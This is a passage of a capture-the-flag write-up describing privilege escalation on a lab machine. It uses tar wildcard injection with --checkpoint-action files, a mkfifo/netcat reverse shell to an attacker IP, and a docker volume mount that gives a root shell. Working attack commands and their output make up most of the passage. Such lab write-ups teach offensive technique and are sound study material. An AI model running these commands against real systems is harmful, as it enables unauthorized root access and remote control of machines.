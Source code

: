 I just googled that last line with "privilege escalation"

Its called [wildcard injection](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/) as it seems

Tried the artcle's demo method

```
jake@the-marketplace:/opt/backups$ echo 'echo "jake ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > demo.sh
jake@the-marketplace:/opt/backups$ touch -- --checkpoint=1
jake@the-marketplace:/opt/backups$ touch -- "--checkpoint-action=exec=sh demo.sh"
jake@the-marketplace:/opt/backups$ chmod 777 backup.tar demo.sh
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
Backing up files...
tar: backup.tar: file is the archive; not dumped
demo.sh: 1: demo.sh: cannot create /etc/sudoers: Permission denied
```
But we can't add jake to sudoers (michael cannot do that)

I found another method...as demo.sh is executed, we can just make it a reverse shell

```
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 2311 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ touch -- --checkpoint=1
jake@the-marketplace:/opt/backups$ touch -- "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ chmod 777 shell.sh
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
Backing up files...
tar: backup.tar: file is the archive; not dumped
demo.sh: 1: demo.sh: cannot create /etc/sudoers: Permission denied
rm: cannot remove '/tmp/f': No such file or directory
```
```
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 60464
$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```
We are michael now...we have docker power

Docker is a root servce so we can mount it on our machine for root shell

you can visit Gtfobins for this one

First get comfortable

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
michael@the-marketplace:/opt/backups$
```

second get root

```
michael@the-marketplace:/opt/backups$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
t /mnt shn -v /:/mnt --rm -it alpine chroot
# uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

